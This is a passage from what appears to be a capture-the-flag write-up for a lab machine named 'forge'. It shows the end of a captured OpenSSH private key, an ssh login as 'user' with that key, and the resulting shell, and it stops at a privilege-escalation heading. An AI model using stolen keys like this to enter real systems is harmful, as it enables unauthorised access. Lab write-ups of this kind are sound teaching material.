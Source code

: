 ```http
fikLIICAMoQseNHAhCPWXVsLL5yUydSSVZTrUnM7Uc9rLh7XDomdU7j/2lNEcCVSI/q1vZ
dEg5oFrreGIZysTBykyizOmFGElJv5wBEV5JDYI0nfO+8xoHbwaQ2if9GLXLBFe2f0BmXr
W/y1sxXy8nrltMVzVfCP02sbkBV9JZAAAAwQDErJZn6A+nTI+5g2LkofWK1BA0X79ccXeL
wS5q+66leUP0KZrDdow0s77QD+86dDjoq4fMRLl4yPfWOsxEkg90rvOr3Z9ga1jPCSFNAb
RVFD+gXCAOBF+afizL3fm40cHECsUifh24QqUSJ5f/xZBKu04Ypad8nH9nlkRdfOuh2jQb
nR7k4+Pryk8HqgNS3/g1/Fpd52DDziDOAIfORntwkuiQSlg63hF3vadCAV3KIVLtBONXH2
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```

Use the private key to log in to `user`'s account.

```bash
ssh -i user_id_rsa user@10.129.220.19 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 14 Sep 2021 08:10:10 PM UTC

  System load:           0.08
  Usage of /:            43.7% of 6.82GB
  Memory usage:          23%
  Swap usage:            0%
  Processes:             219
  Users logged in:       0
  IPv4 address for eth0: 10.129.220.19
  IPv6 address for eth0: dead:beef::250:56ff:feb9:7c1b


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Sep 14 20:09:59 2021 from 10.10.14.71
user@forge:~$ id
uid=1000(user) gid=1000(user) groups=1000(user)
```

---

## Privilege Escalation

### Enumeration
